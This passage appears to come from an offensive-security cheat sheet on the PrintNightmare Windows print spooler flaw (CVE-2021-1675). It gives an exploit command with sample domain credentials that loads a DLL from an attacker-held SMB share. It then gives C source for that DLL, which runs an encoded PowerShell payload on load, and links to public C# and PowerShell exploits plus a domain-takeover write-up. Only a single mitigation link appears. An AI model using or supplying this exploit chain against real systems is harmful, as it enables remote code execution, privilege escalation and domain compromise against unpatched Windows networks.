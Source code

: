 ```
$ python CVE-2021-1675.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.11 '\\10.10.13.37\share\pwn.dll'
```

{% code title="pwn.c" %}
```c
// x86_64-w64-mingw32-gcc pwn.c -o pwn.dll -shared

#include <windows.h>
#include <stdlib.h>
#include <stdio.h>

// Default function that is executed when the DLL is loaded
void Entry() {
    system("powershell -enc <BASE64_PWSH_CODE>");
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
      CreateThread(0, 0, (LPTHREAD_START_ROUTINE)Entry, 0, 0, 0);
      break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
      break;
  }
  return TRUE;
}
```
{% endcode %}

{% embed url="https://snovvcrash.github.io/2021/06/30/leveraging-printnightmare-to-abuse-rbcd.html" caption="Leveraging PrintNightmare to Abuse RBCD and DCSync the Domain" %}


#### C\#

RCE + LPE:

* [https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare](https://github.com/cube0x0/CVE-2021-1675/tree/main/SharpPrintNightmare)


#### PowerShell

LPE:

* [https://github.com/calebstewart/CVE-2021-1675](https://github.com/calebstewart/CVE-2021-1675)



### Reproducibility

Flowchart by [@wdormann](https://twitter.com/wdormann):

{% embed url="https://twitter.com/wdormann/status/1412906574998392840" %}



### Mitigation

* [https://github.com/LaresLLC/CVE-2021-1675](https://github.com/LaresLLC/CVE-2021-1675)
